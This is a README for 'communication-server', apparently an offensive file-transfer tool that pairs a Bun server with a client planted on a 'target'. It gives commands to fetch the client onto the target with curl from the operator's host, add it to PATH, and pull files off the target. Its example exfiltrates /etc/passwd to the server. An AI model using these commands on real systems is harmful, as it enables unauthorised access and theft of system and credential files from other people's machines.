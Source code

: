 # communication-server

### Usage

Clone this repo

Set .env

- PORT : ex: 4444
- ADDR : your hostname ex: https://my-host.com:4444
- ACCESS_KEY : a security key for securing your server change it!

expose your port a way or another

make sure you installed Bun. https://bun.sh

Run

```Bash
#!/usr/bin/env bash
bun build:client
bun serve
```

from target upload the client from https://my-host:4444/client

```Bash
#!/usr/bin/env bash
curl --output client https://my-host:4444/client
```

then add it to the targets's path

```bash
#!/usr/bin/env bash
 export PATH="some/path:$PATH"
```

## Show help

```bash
#!/usr/bin/env bash
client --help
```

## Send a file to the target

put the file in the **download** directory on the server directory ex: download/the-file.txt

```bash
#!/usr/bin/env bash
client --download the-file.txt
```

it will be outputed in the current directory with the same name

## Get a file or a directory from the target to the server

```bash
#!/usr/bin/env bash
client --upload /etc/passwd
# OR
client --upload /some/directory
```

it will be outputed in the upload/{hour}:{minute}-{random-2-string} directory of the server

